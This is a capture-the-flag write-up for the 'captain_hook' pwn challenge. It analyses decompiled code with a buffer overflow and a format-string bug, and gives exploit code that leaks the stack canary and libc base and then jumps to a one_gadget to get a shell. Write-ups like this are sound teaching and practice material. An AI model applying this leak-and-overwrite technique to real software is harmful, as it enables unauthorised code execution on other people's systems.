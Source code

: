 
## captain_hook
### Description

> Find a way to pop a shell.
>
> Creator: Hackhim

### Attachment

[captain_hook](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/captain_hook/captain_hook), [libc](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/SharkyCTF-2020/pwn/captain_hook/libc-2.27.so)

### Analysis

#### Overview

```c
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

```shell
% ./captain_hook 

==Commands========
 1 -> List all characters
 2 -> Lock up a new character
 3 -> Read character infos
 4 -> Edit character infos
 5 -> Free a character
 6 -> Quit
==================

peterpan@pwnuser:~$ 
```

#### lock_up_character

We can input `name`, `age` and `date` in sequence, and the data was stored in follow format:

```c
// 0-13   name
// 32-35  age
// 36-47  date
```

```c
unsigned __int64 lock_up_character(){
  _BYTE v1[12]; // [rsp+Ch] [rbp-14h]
  unsigned __int64 v2; // [rsp+18h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf(" [ Character index ]: ");
  *v1 = read_user_int();
  if ( *v1 < 0 || *v1 > 3 || jail[*v1] ){
    puts("  [!] Invalid index.");
  }
  else {
    *&v1[4] = malloc(0x44uLL);
    if ( !*&v1[4] )
      exit(-1);
    puts(" [ Character ]");
    printf("  Name: ");
    read_user_str(*&v1[4], 31LL);
    printf("  Age: ", 31LL);
    *(*&v1[4] + 32LL) = read_user_int();
    printf("  Date (mm/dd/yyyy): ");
    read_user_str(*&v1[4] + 36LL, 11LL);
    jail[*v1] = *&v1[4];
  }
  return __readfsqword(0x28u) ^ v2;
}
```

> read 31 bytes to `name` and 11 bytes to `date`

#### edit_character

We can edit character which we have looked up, and name, age and date would be updated if the new value is different from the older.

```c
unsigned __int64 edit_character() {
  __int64 v1; // [rsp+0h] [rbp-40h]
  int v2; // [rsp+4h] [rbp-3Ch]
  char *s1; // [rsp+8h] [rbp-38h]
  char s2; // [rsp+10h] [rbp-30h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  printf(" [ Character index ]: ");
  LODWORD(v1) = read_user_int();
  if ( v1 >= 0 && v1 <= 3 && jail[v1] ) {
    s1 = jail[v1];
    puts(" [ Character ]");
    printf("  Name: ", v1);
    read_user_str(&s2, 127LL);     // bof here
    if ( strcmp(s1, &s2) )
      strncpy(s1, &s2, 0x20uLL);
    printf("  Age: ", &s2);
    v2 = read_user_int();
    if ( *(s1 + 8) != v2 )
      *(s1 + 8) = v2;
    printf("  Date (mm/dd/yyyy): ");
    read(0, &s2, 0xAuLL);
    if ( strcmp(s1 + 36, &s2) )
      strncpy(s1 + 36, &s2, 0x20uLL);
  }
  else {
    puts("  [!] Invalid index.");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

> Notice: read 127 bytes to `name` that cause buffer overflow

Here is a bof, but we can't overwrite the return address directly, because it's protected by `canary` .

#### read_info

We can print `name`, `age` and `date` in this function. If the `date` is a valid format, `printf(src + 36)` which hold a format string vulnerability would be called!

```c
unsigned __int64 read_character_infos(){
  __int64 v1; // [rsp+0h] [rbp-40h]
  char *src; // [rsp+8h] [rbp-38h]
  char dest; // [rsp+10h] [rbp-30h]
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf(" [ Character index ]: ");
  LODWORD(v1) = read_user_int();
  if ( v1 >= 0 && v1 <= 3 && jail[v1] ) {
    src = jail[v1];
    strncpy(&dest, jail[v1], 0x20uLL);
    printf("Character name: %s\n", &dest, v1);
    printf("Age: %d\n", *(src + 8));
    strncpy(&dest, src + 36, 0x20uLL);
    printf("He's been locked up on ", src + 36);
    if ( check_date_format((src + 36)) )
      printf(src + 36);       // fmtstring vuln here
    else
      printf("an invalid date.");
    puts(".");
  }
  else {
    puts("  [!] Invalid index.");
  }
  return __readfsqword(0x28u) ^ v4;
}
```

#### helper funtion

I define some helper function for exploiting:

```python
def add(index):
    sla('peterpan@pwnuser:~$ ','2')
    sla(' [ Character index ]: ',str(index))
    sla('  Name: ','TaQini')
    sla('  Age: ','18')
    sla('  Date (mm/dd/yyyy): ','02/02/2020')

def edit(index,fmt):
    sla('peterpan@pwnuser:~$ ','4')
    sla(' [ Character index ]: ',str(index))
    sla('  Name: ','TaQiniAAAA'+fmt)
    sla('  Age: ','20')
    sla('  Date (mm/dd/yyyy): ','02/04/2020')

def read_info(index):
    sla('peterpan@pwnuser:~$ ','3')
    sla(' [ Character index ]: ',str(index))
```

### Solution

As we know the struct of character is as follow, and we can call `edit_character` to edit the character more than 47 bytes

```c
// 0-13   name
// 32-35  age
// 36-47  date
```

When we edit the character, we can puts some format string in the behind of date for leaking info   

```python
add(0)
edit(0,'%17$p.%18$p.%19$p')
read_info(0)
ru('He\'s been locked up on 02/04/2020')
canary = eval(ru('.'))
text = eval(ru('.'))
libcbase = eval(ru('.'))-0x21b97
info_addr('canary',canary)
info_addr('text',text)
info_addr('libc',libcbase)
```

We can overwrite return address with one gadget after `canary` was leaked. 

```python
# debug('b *$rebase(0x1170)')
og = 0x4f322 + libcbase 
# 0x4f322 execve("/bin/sh", rsp+0x40, environ)
edit(0,'A'*30+p64(canary)+p64(0)+p64(og)+p64(0)*8)
```

> restore canary then overwrite return address


### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/SharkyCTF-2020/pwn/captain_hook) 


